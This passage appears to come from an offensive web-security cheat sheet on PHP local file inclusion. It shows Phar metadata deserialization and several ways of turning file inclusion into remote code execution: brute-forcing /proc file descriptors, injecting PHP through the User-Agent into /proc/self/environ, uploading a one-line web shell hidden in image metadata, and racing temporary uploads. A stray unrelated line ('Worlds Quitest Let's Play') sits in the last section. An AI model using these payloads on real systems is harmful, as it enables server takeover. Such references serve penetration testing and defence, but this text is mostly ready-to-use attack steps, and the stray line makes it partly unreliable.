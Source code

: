 If a file operation is now performed on our existing Phar file via the phar:// wrapper, then its serialized meta data is unserialized. If this application has a class named AnyClass and it has the magic method __destruct() or __wakeup() defined, then those methods are automatically invoked

```php
class AnyClass {
    function __destruct() {
        echo $this->data;
    }
}
// output: rips
include('phar://test.phar');
```

NOTE: The unserialize is triggered for the phar:// wrapper in any file operation, `file_exists` and many more.


## LFI to RCE via /proc/*/fd

1. Upload a lot of shells (for example : 100)
2. Include http://example.com/index.php?page=/proc/$PID/fd/$FD, with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)

## LFI to RCE via /proc/self/environ

Like a log file, send the payload in the User-Agent, it will be reflected inside the /proc/self/environ file

```powershell
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```


## LFI to RCE via upload

If you can upload a file, just inject the shell payload in it (e.g : `<?php system($_GET['c']); ?>` ).

```powershell
http://example.com/index.php?page=path/to/uploaded/file.png
```

In order to keep the file readable it is best to inject into the metadata for the pictures/doc/pdf


## LFI to RCE via upload (race)
Worlds Quitest Let's Play"
* Upload a file and trigger a self-inclusion.
* Repeat 1 a shitload of time to:
* increase our odds of winning the race
* increase our guessing odds
* Bruteforce the inclusion of /tmp/[0-9a-zA-Z]{6}
* Enjoy our shell.
